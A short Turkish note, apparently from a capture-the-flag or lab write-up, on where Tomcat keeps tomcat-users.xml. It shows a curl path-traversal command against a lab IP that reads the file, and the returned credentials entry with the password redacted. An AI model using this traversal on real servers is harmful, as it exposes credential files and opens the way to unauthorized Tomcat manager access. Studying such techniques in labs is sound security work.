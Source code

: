 #Tomcat 
tomcat-users.xml dosyası nerede olur?

 Mesela opt altında ise tomcat:x:1002:1002::/opt/tomcat:/bin/false

Genel olarak evet, Tomcat’in kullanıcı tanımlarının bulunduğu dosya: /opt/tomcat/conf/tomcat-users.xml dosyasında bulunur 
```bash
curl --path-as-is 'http://10.10.61.142:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml'
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="[REDACTED]" roles="manager-script"/>

</tomcat-users>
```

